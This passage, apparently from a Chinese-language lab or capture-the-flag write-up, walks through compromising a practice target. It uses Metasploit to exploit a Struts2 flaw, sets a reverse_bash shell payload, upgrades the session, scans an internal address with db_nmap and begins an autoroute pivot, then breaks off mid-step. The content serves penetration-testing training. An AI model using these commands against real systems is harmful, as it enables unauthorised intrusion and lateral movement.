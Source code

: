 <h3 id="Dekmo"><font style="color:rgba(0, 0, 0, 0.85);">攻击靶机1</font></h3>
    7. 寻找包含“ struts2”关键词，类型是exp的漏洞 （已知存在strust漏洞）

```plain
search struts2 type:exploit    #然后输入info id/name查看漏洞介绍 
info 编号                      #查看某个漏洞的详细信息
search S2-059 type:exploit     #进一步缩小搜索范围
use name											 # 选定某个漏洞
show options									 # 查看漏洞的可配置参数
show payload									 #展示可利用的漏洞载荷代码
```

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746800183801-35227061-46e0-400f-a25d-013009a49b72.png)

    8. search reverse type:payload platform:unix   #进一步查找适用于 linux 平台下的反弹 shell  payload。

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746800211482-d7018fdd-3388-40ec-aae0-a95f0ea78a7d.png)

    9. set payload payload/cmd/unix/reverse_bash    #使用合适的 payload
    10. 修改 exploit 与 payload 的参数

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746871164476-bf79b3ff-caa3-4127-af91-2ac2b4780fc3.png)

    11. exploit   -j      # 在后台执行该漏洞利用程序

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746802228089-8394c439-e5cd-4240-9fec-c989c7bfabfd.png)

    12. 拿到 shell 后，查看 /temp 文件夹，找到flag
    13. 按 ctrl z 挂起这个 session（如果退出了再执行一边攻击程序就行，会重新创建一个 session ，编号+1） 
    14. 升级shell为metasploit shell（有更多功能，如设置网络代理 autoroute ）

```bash
sessions -u id
```

    15. 进一步扫描  db_nmap -p 50654,80,22 169.254.23.229 -A -T4 -n

 ![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746805679982-4f9ebffc-ef39-4725-99c0-80a712be9131.png)

    16. 发现靶机真正的内网地址以及网关信息

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746806377724-e7cf9e65-a73d-4557-a8da-56bbd79f0a61.png)



<h3 id="mcAqA">建立对靶机2、3、4的跳板</h3>
    17.  之后使用metasploit添加**网络转发服务器（虚拟路由）**（将请求通过跳板主机·转发到目标网关下的内部网络，否则外部无法访问内网，配合nmap进行批量测试，**而namp的命令又需要设置sock代理转发到跳板主机**）

<font style="color:rgba(0, 0, 0, 0.85);">经查阅有关资料，得知</font>`<font style="color:rgba(0, 0, 0, 0.85);">autoroute</font>`<font style="color:rgba(0, 0, 0, 0.85);"> 是一个</font>**<font style="color:rgb(0, 0, 0) !important;">后渗透模块</font>**<font style="color:rgba(0, 0, 0, 0.85);">（</font>`<font style="color:rgba(0, 0, 0, 0.85);">post/multi/manage/autoroute</font>`<font style="color:rgba(0, 0, 0, 0.85);">），必须先切换到该模块，再设置参数，而不是在 </font>`<font style="color:rgba(0, 0, 0, 0.85);">exploit</font>`<font style="color:rgba(0, 0, 0, 0.85);"> 模块中直接运行。</font>

<font style="color:rgba(0, 0, 0, 0.85);">具体步骤为：</font>
